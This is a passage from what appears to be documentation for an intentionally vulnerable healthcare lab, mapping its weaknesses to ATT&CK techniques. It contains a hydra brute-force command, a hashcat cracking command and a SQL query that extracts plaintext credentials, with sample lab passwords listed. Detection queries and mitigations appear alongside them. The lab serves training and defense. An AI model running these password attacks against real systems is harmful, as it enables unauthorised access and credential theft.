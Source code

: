 ```bash
# Brute force attack
hydra -l root -P common_passwords.txt mysql://target:3306
```

**Password Cracking:**
- MD5 hashes extracted from database
- Fast cracking (billions of hashes/second)

```bash
# Extract and crack
hashcat -m 0 -a 0 hashes.txt rockyou.txt
# Cracks weak passwords in seconds
```

**Detection:**
```sql
-- Failed login attempts
SELECT ip_address, COUNT(*) as failed_attempts
FROM audit_log
WHERE action = 'FAILED_LOGIN'
  AND timestamp > NOW() - INTERVAL 1 HOUR
GROUP BY ip_address
HAVING failed_attempts > 5;
```

**Mitigation:**
- Account lockout policy (5 failed attempts = 30 min lockout)
- Rate limiting on authentication
- Strong password hashing (bcrypt, Argon2)
- MFA required
- CAPTCHA after failed attempts

---

#### T1552: Unsecured Credentials

**Sub-techniques:**
- T1552.001 - Credentials In Files
- T1552.004 - Private Keys

**Description:** Adversaries may search compromised systems for insecurely stored credentials.

**Implementation in Lab:**

**T1552.001 - Credentials In Files:**
- Plaintext passwords in `comments` table
- Credentials in environment variables (`.env`, `docker-compose.yml`)
- Configuration files with credentials

**Example:**
```sql
-- Extract plaintext credentials
SELECT comment_text, plaintext_credential 
FROM comments 
WHERE plaintext_credential IS NOT NULL;

-- Results:
-- db_admin_password: MedC@re2024
-- backup_server: ftpadmin / FtpB@ckup123  
-- ldap_service: cn=admin,dc=medcare,dc=local / LdapAdm1n!
-- vpn_username: remote_access / Vpn@ccess2024
-- ehr_app_root: ehrroot / Ehr@pp2024!
```
